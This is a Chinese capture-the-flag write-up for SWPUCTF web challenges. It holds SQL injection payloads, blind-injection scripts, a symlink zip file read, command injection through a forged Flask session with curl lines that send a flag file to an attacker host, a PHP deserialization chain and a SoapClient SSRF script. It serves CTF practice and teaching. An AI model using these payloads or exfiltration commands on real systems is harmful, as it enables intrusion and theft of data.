<!--yml
category: 未分类
date: 2022-04-26 14:37:16
-->

# SWPUCTF web 部分题解_HyyMbb的博客-CSDN博客

> 来源：[https://blog.csdn.net/a3320315/article/details/103760266](https://blog.csdn.net/a3320315/article/details/103760266)

# 0x01 web1 easyweb

随便注册个账号登陆后，测试发现留言处的title字段存在二次注入

有报错和回显，但是报错过滤了extractvalue和updatexml
考虑使用union，但是过滤了or，不能使用information_schema
对于mysql>5.7的版本，有sys数据库，前提是root权限才能访问

`innodb_index_stats`和`innodb_table_stats`都包含数据库和表，且对应database_name和table_name,且`mysql>5.62,` 但是一般都是默认关闭innodb引擎的

都包含`table_schema, table_name`两个字段
`sys.schema_auto_increment_columns #有包含自增字段的表的信息`
`sys.schema_table_statistics_with_buffer`
`sys.x$schema_table_statistics_with_buffer`

详细参考[链接](https://www.anquanke.com/post/id/193512)

##### 由于这儿我们最多只能知道表名，无法知道列名，可以使用无列名注入，我已知的有两种方法

1、使用join+using报错获得列名

```
?id=-1' union all select*from (select * from users as a join users b)c 
```

三个别名一个都不能少，假如报错提示不能拥有两个相同的列“id”，接下来过的第二列的名字

```
?id=-1' union all select*from (select * from users as a join users b using(id))c 
```

2、使用a.2或者反引号直接获得列

```
select `1` from (select 1,2,3 union select * from users)a
或者
select a.1 from (select 1,2,3 union select * from users)a
当反引号被过滤时可以使用 
```

注意不要丢掉了别名a

我们直接贴出payload

查询表

```
title=ad'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/sys.schema_auto_increment_columns),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22&content=1&ac=add 
```

表名ads,users

但是不知道列名，只能用无列名注入的方式，另外还过滤了反引号`，用别名a.2来代替，payload：

```
title=ad'/**/union/**/select/**/1,(select/**/a.2/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,1,'1&content=1&ac=add 
```


第二列内容为flag，那么看看第三列

```
title=ad'/**/union/**/select/**/1,(select/**/a.3/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a/**/limit/**/1,1),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,1,'1&content=1&ac=add 
```


得到flag
`其中a.2表示第一行是2的列，如果有两列都是2，则报错`

# 0x02 web3 easy_python

有个登陆界面，随便输个用户名都能登陆，回显用户名
本以为是SSTI，但是试了一下，不是这玩意。

然后进入/upload路由，提示没有权限
然后发现源码有段注释：

随便访问个404：
base64解码得到secret_key：
`SECRET_KEY:keyqqqwwweee!@#$%^&*`

然后就是一系列的加解密过程，`注意python2和python3的结果不一样`
我是用github上的`flask-session-cookie-manager-master`脚本
`很坑，使用命令行时在key和token上只能加双引号，加单引号就报错~~`
将id改为1就行了
{u’username’: u’admin’, u’password’: u’1’, u’id’: ‘1’, u’is_login’: True}
得到源码：

```
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')

@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you" 
```

得到两个路由，有第二个路由可知，flag在`./flag/flag.jpg`，而第一个路由的的大致意思是上传一个压缩包，然后读取里面文件的内容，以图片的形式显示出来。

#### 解法一

这儿我们想到了软链接的任意文件读取
payload1:

```
ln -s /proc/self/cwd/flag/flag.jpg HyyMbb
zip -ry HyyMbb.zip HyyMbb 
```

这儿的`/proc/self/cwd`表示当前的工作目录

payload2:

```
ln -s /proc/self/environ   HyyMbb
zip -ry HyyMbb.zip   HyyMbb
ln -s /ctf/hgfjakshgfuasguiasguiaaui/myflask/flag/flag.jpg   HyyMbb
zip -ry HyyMbb.zip   HyyMbb 
```

`/proc/self/environ`文件里包含了进程的环境变量，可以从中获取 flask 应用的绝对路径

payload3:

```
$(III=`awk 'BEGIN{printf \"%c\", 47}'`&&curl xxx.xxx.xxx.xxx:9999 -T `echo ${III}ctf${III}hgfjakshgfuasguiasguiaaui${III}myflask${III}flag${III}flag.jpg`).zip 
```

`$()`和反引号都是命令替换，例如`todaydate=$(date +%Y%m%d)`
执行`date +%Y%m%d)`返回的值赋给todaydate
$()里面的命令都会执行，不管是否赋值成功~

#### 解法二

```
f=request.files['file']
path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
filename = f.filename
pathname = path+filename
try:
	cmd = "unzip -n -d "+path+" "+ pathname
	if cmd.find('|') != -1 or cmd.find(';') != -1:
		waf()
		return 'error'
	os.system(cmd) 
```

filename和session[‘username’]我们都是可控的，然后参数之间拼接到命令：

```
"unzip -n -d "+path+" "+ pathname 
```

只是过滤了|和;，但是&和#都没有过滤掉，所以可以构造任意命令执行

可控的两个参数中，filename因为是文件名，不能带有/，所以不好注入

于是就把注入点放在session[‘username’]

注册用户名：& curl vps:8888 #，得到session后，同样按上面的方法一样修改id:1然后访问/upload

由于我在BUU上没成功，看了别人的writeup，大致说一下步骤

*   1、& base64 ./flag/flag.jpg > /tmp/1.txt #
*   2、& curl vps:8888 -d “@/tmp/1.txt” #
*   3、$ cat 1.txt | base64 -d > flag.jpg

```
我们先将图片转换为base64写入文本中，否则直接打到vps上我们也看不了
然后将文本带出保存在本地，在直接base64 -d转换为图片 
```

# 0x03 web4 demo_mvc

打开靶机，有个登陆界面，提交和返回的都是json格式数据

我们随便测试了一下，在username中加’ 直接报错

但是我们在测试时发现，select’不会报错
于是我们推断，select被过滤了，于是我们找到了fuzz的方法，有单引号且不报错的就是被过滤的关键词，经过测试发现下列关键词被过滤了。
`select updatexml extractvalue or and if ascii sleep substr , || &&`

经过测试我们发现如下规律，当语法错误时会报错，只要不包括过滤的关键词，而且没有语法错误就可以返回202，此时我们就可以利用报错来进行盲注，这也是一种思想，尽可能地利用现有的条件
直接贴出代码：

```
 import requests
import json

url = "http://b6056caa-c35b-4ba8-9e0c-646366ffcddd.node3.buuoj.cn/index.php?r=Login/Login"
database = ""
hex_database = ""
i = -1
while i > -10:
    for j in range(44,128):
        j = chr(j)
        k = j.encode('hex')
        username = "'^(case/**/hex(mid(database()/**/from/**/"+str(i)+"))/**/when/**/"+k+hex_database+"/**/then/**/1/**/else/**/abs(-9223372036854775808)/**/end)-- -"

        data = {                                    
            "username":username,
            "password":"1"
        }

        data = json.dumps(data)
        r = requests.post(url,data=data)

        if "202" in r.text:
            database = j + database                             
            hex_database = k + hex_database                     
            print database
            break
    i = i - 1 
```

这儿说明一下mysql中`''^10返回的就是10`，我试了其它其它的数字，好像就这个负数的绝对值报错，不知道咋回事~~
得到数据库的名字为ctf,但是过滤了select，or等，不知道如何下手了，然后测试了一下堆叠注入，没想到还真有~~，我们输入a’时，报错，但是输入a’;时却返回202，所以存在堆叠注入。
我们这儿就直接贴出payload：

```
 import requests
import json
import time

def main():
    url = 'http://44213eba-8d88-4f93-98fa-769b3e1a4f23.node3.buuoj.cn/index.php?r=Login/Login'
    payloads = "a';set @a=0x{0};prepare ctftest from @a; execute ctftest-- -"
    flag = ''
    for  m in range(30):
        print("前{0}位".format(m))
        payload = "select if (ascii(substr((select group_concat(flag) from flag), {0}, 1))={1}, sleep(4), 1)"      
        for n in range(0, 128):
            datas = {'username': payloads.format(str_to_hex(payload.format(m, n))), 'passwd': 'test'}
            datas = json.dumps(datas)    

            times =  time.time()
            res = requests.post(url = url, data = datas)
            if time.time() - times >= 3:
                flag+=chr(n)
                print(flag)
                break

def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])                              

if __name__ == '__main__':
    main() 
```

最后得到
flag = "xxx.zip"一个压缩文件，一个简单的MVC

首先确定flag的位置
接着跟进index.php中的fun.phpr的默认值时Login/Index, 根据上述功能知道，第一个Login指定的是控制器，而Index指定的是控制器中的一个方法，根据倒数第三行的代码call_user_func函数推出~~
最后调用的函数就是
`call_user_func(array(new Logincontroller, actionIndex))`
调用Logincontroller类中的actionIndex方法，没有传入参数~~,

接着跟进视图，看哪儿有我们可以实现的功能，翻了半天，整个框架除了登录功能外就剩下一个展示图片的功能了，那么利用点肯定实在这儿了~~
大致的功能是传入一个参数，指定一个文件，base64编码，以图片的形式展示出来。我们就看看这个传入的参数是否可控~~，由于是控制器控制视图的参数，于是我们看哪儿调用的userIndex视图

这儿的调用了userIndex, 而且$listData可控
跟进loadView()函数


这儿有个变量覆盖, 而且$viewData就是$_REQUEST，所以构造如下payload

`?User/Index&img_file=/../flag.php`
解密base64就可以得到flag了~~


# 0x04 web6 出题人不知道

开始是一个注入
 账号密码分开验证，且没有验证账号密码是否不为空，可以尝试如下payload

用户名处

```
1’ or ‘1’=’1’ group by passwd with rollup having passwd is NULL — – 
```

这儿with rollup会增加一行，其中passwd为NULL，having passwd is NULL 表示选择我们增加的那一行，即有用户名，密码为空，所以我们登陆时密码为空即可~~

密码为空 登录成功~~

同时也可以注出账号密码：

```
' or passwd > '3' => Wrong password
					=> passwd第一位为'3'
' or passwd > '4' => wrong  username or password 
```

提示有个wsdl.php，打开看一下
其中有很多方法，访问get_flag接口

必须越权加ssrf
接着我们读取文件
经过测试需要POST一个参数filename=
读取的文件为：
cooike加密文件为：

```
<?php

function en_crypt($content,$key){
    $key    =    md5($key);
    $h      =    0;
    $length    =    strlen($content);
    $swpuctf      =    strlen($key);
    $varch   =    '';
    for ($j = 0; $j < $length; $j++)
    {
        if ($h == $swpuctf)
        {
            $h = 0;
        }
        $varch .= $key{$h};

        $h++;
    }
    $swpu  =  '';

    for ($j = 0; $j < $length; $j++)
    {
        $swpu .= chr(ord($content{$j}) + (ord($varch{$j})) % 256);
    }
    return base64_encode($swpu);
} 
```

写出对应的php解密文件,其中对应的key是访问keyaaaaaaaasdfsaf.txt得到的~~

```
<?php
function de_crypt($swpu, $key)
{
	$key = md5($key); 
	$swpu = base64_decode($swpu);
	$length = strlen($swpu);
	$swpuctf = strlen($key); 
	$varch = '';
	$h = 0;

	for ($j = 0; $j < $length; $j++)
    {
        if ($h == $swpuctf)
        {
            $h = 0;
        }
        $varch .= $key{$h};

        $h++;
    } 	

	$content = '';

	for ($j = 0; $j < $length; $j++)
    {
		$content .= chr(ord($swpu{$j}) - ord($varch($j)));
    } 

return $content;}

	$key = 'flag{this_is_false_flag}';
	echo de_crypt("3J6Roahxaw==",$key) 
```

继续读取文件
interface.php

```
 <?php   
    include('Service.php');
    $ser = new SoapServer('Service.wsdl',array('soap_version'=>SOAP_1_2));
    $ser->setClass('Service');
    $ser->handle();
?> 
```

se.php

```
<?php
ini_set('session.serialize_handler', 'php');
class aa
{
        public $mod1;
        public $mod2;
        public function __call($name,$param)
        {
            if($this->{$name})
                {
                    $s1 = $this->{$name};
                    $s1();
                }
        }	
        public function __get($ke)
        {
            return $this->mod2[$ke];
        }
}
class bb
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
            $this->mod1->test2();
        }
} 
class cc
{
        public $mod1;
        public $mod2;
        public $mod3;
        public function __invoke()
        {
                $this->mod2 = $this->mod3.$this->mod1;
        } 
}
class dd
{
        public $name;
        public $flag;
        public $b;

        public function getflag()
        {
                session_start(); 
                var_dump($_SESSION);
                $a = array(reset($_SESSION),$this->flag);
                echo call_user_func($this->b,$a);
        }
}
class ee
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->{$this->str2}();
                return "1";
        }
}

$a = $_POST['aa'];
unserialize($a);
?> 
```

接下来我们介绍一下`ini_set('session.serialize_handler', 'php');`
我们可以上传我们想要上传的一些script到对应的session中，代码如下：

```
 import requests

url = input("打开burpsuite代理;  输出网址：")

data={'PHP_SESSION_UPLOAD_PROGRESS': 'kexiugai'}
file = {'file': ('kexiugai.txt','xxxx')}
cookies={'PHPSESSID': 'sessid'}
proxies = {'http': 'http://127.0.0.1:8080'}
req = requests.post(url, data=data, files=file, cookies=cookies, proxies=proxies, verify=False) 
```

这是Soapclient的序列化脚本

```
<?php 
$target = 'http://127.0.0.1/interface.php'; 
$headers = array('X-Forwarded-For:127.0.0.1', 'Cookie:user=xZmdm9NxaQ==; PHPSESSID=fuck3' );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^'.join('^^',$headers),'uri' => "aaab")); 
$aaa = serialize($b); 
$aaa = str_replace('^^',"\r\n",$aaa); 
$aaa = str_replace('&','&',$aaa); 
echo urlencode($aaa); 
?> 
```

SoapClient介绍如下
